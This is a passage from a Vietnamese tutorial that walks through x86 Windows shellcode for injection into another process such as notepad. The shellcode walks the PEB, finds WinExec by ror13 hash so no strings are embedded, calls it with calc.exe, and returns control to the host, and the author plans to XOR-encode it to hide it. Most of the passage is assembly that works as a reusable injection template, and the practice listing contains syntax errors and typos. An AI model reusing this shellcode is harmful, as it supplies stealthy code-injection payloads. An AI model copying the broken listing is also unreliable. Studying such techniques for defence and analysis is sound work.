   ├─────────────────────────────────────────────────────────────────────┤
   │  (1) PEB WALK                                                        │
   │      fs:[0x30] → PEB → Ldr → InLoadOrderModuleList                   │
   │      lấy head, bắt đầu duyệt                                         │
   ├─────────────────────────────────────────────────────────────────────┤
   │  (2) VÒNG LẶP MODULE           ◄───────────────────────┐             │
   │      │ kiểm tra PE hợp lệ?                             │             │
   │      │ có Export Directory?                            │             │
   │      ├─────────────────────────────────────────────────┤             │
   │      │  (3) VÒNG LẶP TÊN HÀM     ◄─────┐               │             │
   │      │      hash ror13(tên)            │               │             │
   │      │      == hash("WinExec") ?  ─không───────────────┘             │
   │      │      có ↓                                       │             │
   │      │  (4) lấy địa chỉ: Functions[NameOrdinals[i]]    │             │
   │      │      là FORWARDER ?  ──có───────────────────────┘             │
   │      │      không ↓                                                  │
   │      │  ★ ĐÃ CÓ &WinExec                              │              │
   │      └─────────────────────────────────────────────────┘             │
   ├─────────────────────────────────────────────────────────────────────┤
   │  (5) WinExec("calc.exe", SW_SHOW)                                    │
   ├─────────────────────────────────────────────────────────────────────┤
   │  (6) POPAD; RET                            ← trả quyền cho chủ       │
   └─────────────────────────────────────────────────────────────────────┘
```

### Trực quan với khối code

#### Khối 0 - Bảo toàn thanh ghi

```
_start:
    pushad
```

Vì sao ngay dòng đầu? Vì shellcode chạy bên trong tiến trình khác. `EBX, ESI,EDI,EBP` là callee-saved theo quy ước gọi hàm Windows - nếu bạn ghi đè mà không khôi phục, chương trình chủ sẽ bị hỏng khi tiếp tục .

```
pushad đẩy cả 8 thanh ghi (32 byte) chỉ trong 1 byte lệnh. Rất hiệu quả.
```

#### Khối 1 - PEB walk

```
    mov  eax, [fs:0x30]               ; EAX = PEB
    mov  eax, [eax+0x0C]              ; EAX = PEB->Ldr
    lea  edx, [eax+0x0C]              ; EDX = &InLoadOrderModuleList
    push edx                          ; giữ head để biết điểm dừng
    mov  edi, [edx]                   ; EDI = entry đầu tiên

.next_module:
    cmp  edi, [esp]                   ; quay về head = hết danh sách
    je   .fail
    mov  ebp, [edi+0x18]              ; EBP = DllBase

```

> **Bài học quan trọng.** Cách kinh điển trên mạng là:
> ```asm
> mov esi, [eax+0x1C]      ; InInitializationOrderModuleList
> lodsd
> mov eax, [eax+0x08]      ; "phần tử thứ 2 là kernel32"
> ```
> Cách này **sai trên Wine**, vì `InInitializationOrder[1]` là `kernelbase.dll`.
> Mình đã mất một vòng debug vì nó.
>
> **Cách đúng: duyệt HẾT danh sách, kiểm tra từng module — đừng giả định vị trí.**

#### Khối 2: kiểm tra và lấy Export Directory
```
    mov  eax, [ebp+0x3C]              ; e_lfanew
    cmp  eax, 0x1000
    ja   .advance                     ; e_lfanew vô lý → module không phải PE
    add  eax, ebp                     ; EAX = &PE header
    cmp  dword [eax], 0x00004550      ; "PE\0\0"
    jne  .advance

    mov  edx, [eax+0x78]              ; DataDirectory[0].VirtualAddress
    test edx, edx
    jz   .advance                     ; module không export gì
    mov  ecx, [eax+0x7C]              ; DataDirectory[0].Size  ← cho forwarder
    add  ecx, edx
    add  ecx, ebp                     ; ECX = export_end
    add  edx, ebp                     ; EDX = export_va

```

Lưu ý:
1. Không phải module nào cũng là PE/ có export, `msvcrt.dll` có, `notepad.exe` không. Phải kiểm tra trước khi đọc, nếu không là crash.
2. Size nằm ở `DataDirectory[0].size` = PE + 0x7c, không nằm trong Export Dic.

#### Khốis 3 - Vòng lặp hash
```
    mov  edi, [edx+0x20]              ; AddressOfNames RVA
    add  edi, ebp                     ; EDI = &AddressOfNames[]
    mov  ecx, [edx+0x18]              ; NumberOfNames

.name_loop:
    dec  ecx
    js   .scan_done                   ; hết tên
    mov  esi, [edi+ecx*4]
    add  esi, ebp                     ; ESI = &tên hàm (ASCIIZ)
    xor  ebx, ebx                     ; hash = 0
    push ecx
    cld
.hash_loop:
    xor  eax, eax
    lodsb                             ; AL = *ESI++
    test al, al
    jz   .hash_done
    ror  ebx, 13
    add  ebx, eax
    jmp  .hash_loop
.hash_done:
    pop  ecx
    cmp  ebx, HASH_WINEXEC            ; 0x0E8AFE98
    jne  .name_loop

```
lưu ý:

- `xor eax, eax` trước lodsb: lodsb chỉ đặt AL; nếu không xóa, EAX giữa rác 23 bit trên-> hash sai
- `push ecx`/`pop ecx`: giữ bộ đếm qua vòng lặp hash (vòng lặp không ghi vào ecx)
- `dec` + `js` thay vì `loop`: `JCXZ`/`LOOP` bị chậm trên CPU hiện đại; `dec/js` nhanh hơn và rõ hơn .

#### Khối 4 - lấy địa chỉ và loại forwarder
```
    mov  edx, [esp+4]                 ; &AddressOfNameOrdinals[]
    movzx eax, word [edx+ecx*2]       ; ordinal
    mov  edx, [esp+8]                 ; &AddressOfFunctions[]
    mov  eax, [edx+eax*4]             ; RVA
    add  eax, ebp                     ; EAX = địa chỉ ứng viên

    mov  edx, [esp+12]                ; export_va
    cmp  eax, edx
    jb   .got_it                      ; nhỏ hơn → code thật
    cmp  eax, [esp+16]                ; export_end
    jb   .scan_done                   ; nằm trong → FORWARDER, bỏ qua

.got_it:

```

#### Khối 5- Gọi hàm và trả về:

```
    call .get_cmd
.cmd:
    db   "calc.exe", 0
.get_cmd:
    pop  ebx                          ; EBX = &"calc.exe"  ← KHÔNG hardcode
    push 1                            ; uCmdShow
    push ebx                          ; lpCmdLine
    call eax                          ; WinExec  (stdcall tự dọn 8 byte)

.done:
    popad
    ret

```

kỹ thuật `call`/`pop`: call đẩy địa chỉ lẹnh kế tiếp ( = địa chỉ chuỗi  )vào stack, rồi nhảy qua chuỗi tới `pop` để láy nó. Đây là cách chuẩn để có dữ liệu `position-independent` mà không cần địa chỉ tuyệt đối.

#### Tổng kết

với một quá trình inject một shellcode bất kì ta có thể hoạch định nó như sau:
- `pushad:` cất 8 thanh ghi, vì `EBX/ESI/EDI/EBP` là callee-saved, không khôi phục thì vật chủ sẽ hỏng.
- `Đọc fs:[0x30]`-> PEB -> +0x0C ldr -> +0x0C danh sách module (danh sách móc vòng).
  - fs là thanh ghi trỏ đến TEB (thread environmet block) và +0x30 chính là PEB.

- Vòng lặp qua từng module -> mỗi entry đọc +0x18 ra DLLBase.

- Từ Dllbase đọc cấu trúc PE -> +0x3C e_lfanew -> +0x78 ra Export Directory.
- Trong Export Directory, vòng lặp thứ hai duyệt AddressOfNames, băm mỗi tên bawfg hash ror13, so với 0x0E8AFE98 (=`WinExec`). không nhúng chuỗi nào cả.
- Trúng tên -> AddressOfNameOrdinals[i] ra ordinal -> AddressOfFunctions[o] ra RVA ->cộng Dllbase ra địa chỉ thật. Nếu RVA nằm trong khoảng export Directory thì đó là forwarder (con trỏ sang DLL khacs, không phải code) -> bỏ qua, quay lại vòng ngoài.
- Có &Winexec -> call với `calc.exec` (lấy địa chỉ chuỗi bằng call/pop).
- popad khôi phục thanh ghi -> ret nhảy về Entry point gốc -> đại chỉ do STUB đẩy vào stack, shellcode hoàn toàn không biết.

### Thực hành:

ok thì bây giờ mình sẽ mô phỏng một shellcode nhằm 1 đích call `calc.exe` và dùng mã hóa xor để ẩn danh tính nó.

những gì mình có trong tay:
```
└─$ tree
.
├── NOTEPAD.EXE
└── calc.exe
```

#### Chuẩn bị

Ta cần viết một sripts để có thể tìm đến tìm đến `WinExec`.
Như cũ ta sẽ chuẩn bị theo từng bước đã được biết ở trên.

1. Cất 8 thanh ghi.

```
_start:
  pushad

```

2. `Đọc fs:[0x30]`-> PEB -> +0x0C ldr -> +0x0C danh sách module (danh sách móc vòng).
- Vòng lặp qua từng module -> mỗi entry đọc +0x18 ra DLLBase.

```
  mov eax, [fs:0x30]; eax = PEB
  mov eax, [eax + 0x0C]; eax = peb -> ldr
  lea edx. [eax + 0x0C]; edx = &InLoadOrderModuleList (head)
  push edx ; [esp] = head
  mov edi, [edx]; edi = entry đầu tiên

.next_module:
  cmp edi, [esp] ; quay ve head -> het danh sach
  je .fail ; neu lap het 1 vong ma khong tim thay, that bai
  mov ebp, [edi+0x18]; ebp = dllbase  dia chi nap cua dll
  test epb, epb ; kiem tra coi dll co null khong
  jz .advance ; nhay sang module moi neu null

  ; ---- kiem tra co phai PE hop le khong ---
  mov eax, [ebp+0x3C] ; e_lfanew - offset toi pe headers
  cmp eax, 0x1000 ; kiem tra offset co bat thuong, qua lon khong
  ja .advance
  add eax, ebp; eax = &pe header
  cmp dword [eax], PE_SIG ; kiem tra signature co phai PE\0\0 khong
  jne .advance ; khong phai thi bo qua

  ; -- lay khoang [export_va, export_end] de nhan din forwarder---
  mov edx, [eax+0x78]; DataDirectory[0].VirtualAddress
  test edx, edx
  jz .advance ; khong co bang export
  mov ecx, [eax+0x7C];DataDirectory[0].Size
  add ecx, edx
  add ecx, ebp; ecx = export_end
  add edx, ebp; edx = export_va
  cmp dword [edx +0x18], 0 ; numberOfnames
  je .advance

```

#### Cất các con trỏ bảng export sau khi lọc được vào stack (không dùng thanh ghi)

```

  ; -------------------------------------------------------------------
  ; (2) Cat cac con tro bang export vao stack (khong du thanh ghi)
  ;
  ;     [esp+0]  module entry     [esp+12] export_va
  ;     [esp+4]  NameOrdinals     [esp+16] export_end
  ;     [esp+8]  Functions        [esp+20] head
  ; -------------------------------------------------------------------

  push ecx ; export_end
  push edx ; export_va
  mov eax, [edx +0x1C]; AddressofFunctions RVA
  add eax, ebp; dllbase + addressofFunctions Rva = address cua AddressofFunciton tren dll
  push eax
  mov eax, [edx + 0x24] ; AddressofNameordinals RVA
  add eax, ebp  ; tuong tu
  push eax
  push edi ; module entry (edo se bi dung lai)

  mov edi, [edx + 0x20]: AddressOfNames RVA
  add edi, ebp; edi = &AdressofNames[]
  mov ecx, [edx + 0x18]; ecx = numberofNames.

```

####  Duyet tung ten ham, tinh hash ror13, so sanh

```
  ; -------------------------------------------------------------------
  ; (3) Duyet tung ten ham, tinh hash ror13, so sanh
  ; -------------------------------------------------------------------
.name_loop:
  dec ecx
  js .scan_done             ; ecx < 0 -> Đã duyệt hết tên trong DLL này
  mov esi, [edi + ecx*4]    ; rva của tên hàm thứ ecx
  add esi, ebp              ; esi = Địa chỉ chuỗi tên hàm trong RAM
  xor ebx, ebx              ; ebx = Hash accumulator = 0
  push ecx
  cld

.hash_loop:
  xor eax, eax
  lodsb                     ; AL = *esi++
  test al, al
  jz .hash_done             ; Gặp byte NULL -> Kết thúc chuỗi
  ror ebx, 13               ; Xoay phải 13 bit
  add ebx, eax              ; Cộng ký tự hiện tại vào hash
  jmp .hash_loop

.hash_done:
  pop ecx
  cmp ebx, HASH_WINEXEC     ; So sánh hash vừa tính với giá trị khớp WinExec (0x0E8AFE98)
  jne .name_loop

```

#### Tim thay ten -> doi qua dia chi ham

```
  mov edx, [esp+4]; &addressofnameordinams[]
  movzx eax, word [edx + ecx*2]; ordinal
  mov edx, [esp+8]; &addressoffunctions[]
  mov eax , [edx+eax*4]; rva cua ham

  ;--- loai bo forwarder: rva nam trong chinh bang export---
  mov edx, [esp+12]; export va
  cmp eax, edx ;
  jb .got_it;  nho hon > ma thuc thi hat
  cmp eax, [esp +16]; export end
  jb .scan_done; nam trong forwarder, bo qua.

.got_it:
  add esp, 20 ; bo 5 dword bang export
  pop edx; bo head
  ; eax = &winexex

```

#### goi WinExec('calc.exe"sw_show)
```
call .get_cmd

.cmd:
  db "calc.exe", 0

.get_cmd:
  pop ebx ; exb = &"calc.exe" lay bang call/pop
  push 1; ucmdshow= SW_SHOWORMAL
  push ebx; lpcmdline
  call eax; winEXEC

.done;
  popad; khoi phuc moi thanh ghi
  ret; tra ve noi goi

```

#### khong tim thay lu ve khogn lam gi, khog crash

```
.scan_done:
  pop edi ; khoi phuc module entry
  add esp, 16; bo 4 dword con lai
.advance:
  mov edi, [edi]: entry ke tiep
  jmp . next_module
.fail:
  pop edx; bo head
  jmp .done
```
## Tài liệu tham khảo

- https://towardsdev.com/understanding-stack-and-heap-memory-a96e90f9c982
- https://www.geeksforgeeks.org/cpp/calling-conventions-in-c-cpp/
- https://thecodest.co/en/dictionary/return-address/
- https://en.wikipedia.org/wiki/X86_calling_conventions#Register_preservation
- https://www.geeksforgeeks.org/computer-organization-architecture/general-purpose-registers/
- https://blog.deephacking.tech/en/posts/anatomy-of-the-portable-executable-format/
- https://en.wikipedia.org/wiki/Portable_Executable
- https://learn.microsoft.com/en-us/windows/win32/debug/pe-format#optional-header-standard-fields-image-only
- https://learn.microsoft.com/en-us/cpp/build/reference/entry-entry-point-symbol
- https://learn.microsoft.com/en-us/cpp/c-runtime-library/crt-initialization
- https://learn.microsoft.com/en-us/windows/win32/learnwin32/winmain--the-application-entry-point
- https://learn.microsoft.com/en-us/windows/win32/dlls/about-dynamic-link-libraries
- https://techcommunity.microsoft.com/discussions/windows-security/turn-on-mandatory-aslr-in-windows-security/1186989
- https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect
